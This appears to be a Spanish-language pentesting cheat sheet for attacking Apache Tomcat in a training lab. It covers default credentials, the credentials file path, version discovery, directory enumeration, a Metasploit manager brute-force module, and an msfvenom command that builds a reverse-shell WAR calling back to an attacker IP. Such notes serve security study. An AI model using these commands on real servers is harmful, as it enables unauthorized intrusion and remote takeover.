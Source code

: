 #### Info
- Soporta aplicaciones en JAVA.
- Soporta JSP
- Utilizado por frameworks como Spring
- En la carpeta conf <tomcat-users.xml se encuentran las credenciales de los usuarios ;)
- Usuales contraseñas: tomcat:tomcat admin:admin

#### archivos importantes

- /opt/tomcat/conf/tomcat-users.xml 

#### Discovery
##### Versiones:
Si el server trabaja detrás de un reverse proxy podemos impulsar un error 404. Si la página está por defecto entonces nos dirá la versión

    http://app-dev.inlanefreight.local:8080/invalid

Otra forma es revisando el /docs:

    curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 


#### Enumeration

    gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt


### Attacking:

#### Brute-fotcing:
##### Metasploit

    auxiliary/scanner/http/tomcat_mgr_login


#### RCE

Podemos luego de entrar al manager conseguir rce subiendo una webshell .WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
    


